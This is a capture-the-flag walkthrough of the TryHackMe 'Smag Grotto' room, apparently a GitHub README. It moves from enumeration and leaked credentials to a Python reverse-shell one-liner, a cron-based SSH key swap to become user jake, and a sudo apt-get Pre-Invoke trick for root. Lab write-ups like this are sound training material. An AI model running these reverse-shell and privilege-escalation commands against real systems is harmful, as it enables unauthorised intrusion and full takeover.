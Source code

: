 # Smag Grotto CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Smag Grotto** CTF challenge on [TryHackMe](https://tryhackme.com/room/smaggrotto). 
---

we see 2 open ports 22 and 80

![scn](imgs/scn.png "scn")

we found we hidden folders with feroxbuster

![ferox](imgs/ferox.png "ferox")

checking the `/mail` folder

![emails](imgs/cron.png "cron")

possible users: netadmin, uzi, jake, trodd

we also found .pcap file 

just by looking at the source of the page we see some credentials

![source](imgs/source.png "source")

wireshark analysis confirms them

![wire](imgs/wire.png "wire")

after looking at the frame we also know about `development.smag.thm` adding this to `/etc/hosts`

after checking development we see file listing, 

![idx](imgs/idx.png "idx")

we can login by using credentials we found earlier  

now we have access to command panel, commands like id, whoami, ls doesnt seem to give an output

![cmd](imgs/cmd.png "cmd")

i just used simple python3 reverse shell 

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.14.X.X",4445));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

we got access as www-data

![www](imgs/www.png "www")

after inspecting linpeas output 

![cron](imgs/cron.png "cron")

we can see cronjob that takes public key from `/opt/.backups/jake_id_rsa.pub.backup` and puts it into jake authorized keys, so if we can change the jake_id_rsa.pub.backup to our own key we could login as jake via ssh



we can generate our own ssh key with:

```
ssh-keygen -t rsa -b 4096 -C "your_email@example.com" -f /tmp/my_ssh_key
```

![rsa](imgs/rsa.png "rsa")

now we can use echo to change the `/opt/.backups/jake_id_rsa.pub.backup` to our own public key 

```
echo "our public key" > /opt/.backups/jake_id_rsa.pub.backup
```

now we can copy our private key and log as jake via ssh beacuse cron job will substitute jake's real key with our


we got user flag

![user](imgs/user.png "user")

now we see the sudo -l output:

![sudol](imgs/sudol.png "sudol")

checking the GTFObins

![gtfo](imgs/gtfo.png "gtfo")

we can use this command to gain root shell:

```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

we got root access and root flag

![root](imgs/root.png "root")

# MACHINE PWNED

